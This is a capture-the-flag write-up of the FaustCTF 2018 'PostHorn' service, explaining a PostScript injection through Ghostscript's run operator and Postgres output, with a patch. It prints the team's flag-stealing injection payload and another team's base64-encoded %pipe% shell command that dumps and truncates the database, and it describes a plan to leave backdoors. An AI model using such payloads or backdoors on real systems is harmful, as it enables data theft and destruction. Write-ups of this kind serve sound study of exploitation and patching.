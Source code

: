 # PostHorn

FaustCTF 2018
![posthorn pdf](O89YgWk.png)

PostHorn was a service where we got first blood (🎉🎉🎉) in the 2019 FAUST CTF featuring Post-based technologies, such as

- HTTP Posts
- Postgress 
- Postscript

It featured a CGI Webserver binary (launched by uwsgi.ini):
![ghidra output](SGpPW9L.png)

The binary then executed PostScript files (the stuff that renders PDFs) (!!!) and forwarded the output of ghostscript to the browser.

We quickly decided the stripped binary was too much work... and focussed on the .ps files.

## PostScript

PostScript is an archaic stack-based language.
But it's very different from most things we were used to, for example defining a variable is:

```postscript
/variablename whatever def
```

Its primary use is to render PDFs.
Of course, the interface in the browser was PDFs and embedded forms <3, such as [this](index.pdf):

Due to recent PS-Based CVEs, we found a pretty good introduction here:
https://www.fortinet.com/blog/threat-research/debugging-postscript-with-ghostscript.html

## Postgress

All users and posts were added to a Postgress DB.
The Ghostscript interpreter (interpreting PostScript) then execed `psql` to communicate with the PostScript Database.

The flagbot dropped were droped into there - as message of a user.

The `psql.ps` file was the following:

```PostScript
/sqlgetrow{
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file 1000 string readline pop
} bind def

/sqlescapestring {
	(t) genuuid concatstrings ($) 2 {dup 3 1 roll 2 {concatstrings} repeat} repeat
} bind def

/sqlforallresults {
	/code exch def
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file /fd exch def
	{
        mark fd 512 string readline {
			null (w) .tempfile dup 4 -1 roll writestring closefile
			5 dict dup dup 4 -1 roll run 3 -1 roll exch /posted exch put /post exch put code exec cleartomark
		}{
			cleartomark exit
		} ifelse
	} loop
} bind def
```

This was, indeed, were we found an injection.

In the function(?) (operator?) `/sqlforallresults`, the returns from postscript are being passed to `run`. 
The docs state:
> *run* is a convenience operator that combines the functions of _file_ and _exec_

Inside the sql file, we find: `SELECT format(' (%s)  (%s) ', ...` -> after some deugging, it was clear that the result is then directly interpreted by `gs` (backets being the quotes for strings).
That means, anything with brackets we can inject here will allow for PostScript RCE!

## The Exploit

![flag output pdf](flag.png)
To exploit, we posted:

```SQL
SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost
```

Since psql then formats this to:

```PostGress
  (SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost) (some_id)  
```

and `gs` `run`s this, it will first
- push the SQL statement to the stack
- execute the `sqlgetrow` operator which pushes the sql result to the stack
- calls `show` on this, outputting the flag to the PDF (see picture above)
- pushes two normal values to the stack to make the normal parsing function happy

At the same time, we started patching.

## The Patch

To fix this issue we sanitized the output of the two provided postgres functions. In particular usernames and the content of the post could be used to trip up the postscript parsing.

We replaced the parentheses with letters, by using the `translate` function, rigerously repacing `(` with `a` and `)` with `b`.

The resulting functions (the original versions were the same without translate) are:

```SQL
CREATE OR REPLACE FUNCTION get_posts(fromuser TEXT, asuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE asuser = username)
        SELECT format(' (%s)  (%s) ', translate(post, '()', 'ab'), posted)
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE user_table.username = fromuser AND access_table.user_id = help.user_id;
$$
LANGUAGE sql;

CREATE OR REPLACE FUNCTION get_friends(fromuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE fromuser = username)
        SELECT DISTINCT format(' (%s)  (%s) ', post_table.user_id, translate(username, '()', 'ab'))
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE access_table.user_id = help.user_id
$$
LANGUAGE sql;
```

## A Nicer Exploit That Should Have Been...

Since flags got deleted by the other teams' exploits, for example with:

```PostScript
%pipe%echo cHNxbCAtYyAnc2VsZWN0ICogZnJvbSBwb3N0X3RhYmxlO1RSVU5DQVRFIHBvc3RfdGFibGUgQ0FTQ0FERTsnfGdyZXAgLW8gJ0ZBVVNUX1tBLVphLXowLTkrL10qJyAK | base64 -d | sh >> /tmp/zalupa) (r) file closefile 0 quit (12345
```

which decodes to

```
psql -c 'select * from post_table;TRUNCATE post_table CASCADE;'|grep -o 'FAUST_[A-Za-z0-9+/]*' 
```

We came up with the idea to:

- fix the service for other teams
- leave a backdoor with backdoor key per team
- profit

Since this could be done inside psql, (with `CREATE OR REPLACE FUNCTION`) leaving the original `sql` file intact, teams might not even have found their own patches and backdoors.

![future](1gp4ub.jpg)

In the end, we failed to do `psql` things the way `psql` wants to do things in time...

Next time...


## Done

Thanks for listening.
Great service with some retro post horny technologies!
Writeup by domenukk and iwo -  thanks to Victor and Lucas. 
